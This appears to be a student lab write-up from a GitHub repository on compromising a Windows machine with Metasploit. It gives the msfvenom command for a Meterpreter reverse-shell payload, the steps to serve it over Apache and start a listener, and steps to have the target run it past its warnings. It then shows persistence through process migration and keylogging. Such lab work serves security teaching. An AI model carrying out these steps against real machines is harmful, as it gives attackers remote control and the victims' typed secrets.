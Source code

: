 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/7ada33d2-4768-4cc7-a155-bc020fa8db58)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/bf15930d-cd6a-47b2-9a09-4b47e86730ab)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/ca7dc7eb-517b-4b6e-8564-b605a98c2113)


Start apache server
sudo systemctl apache2 start
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/8bbf3262-620a-4329-b345-5e86a9ccdb08)

Check the status of apache2
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/9bc2b719-8f5d-4684-9489-1e3a4b8fd972)

Invoke msfconsole:
## OUTPUT:

![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/1f235765-5c2f-401f-bf6c-6ea482f0be0b)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/e960726a-4a92-4876-81a8-b666041cc488)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/9d62c698-0441-4293-8aa1-6c5013236279)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/535ba05a-da29-48f5-9b30-ef1028573369)


Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/5c31d3b4-7e75-442f-8f25-fef64d0b2d11)

On kali give the command exploit
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/3a92b09f-4dd9-4c03-9c46-eea4fde9aaca)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/9e3aeb22-ebc2-47ef-88bb-fa96fb800d64)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
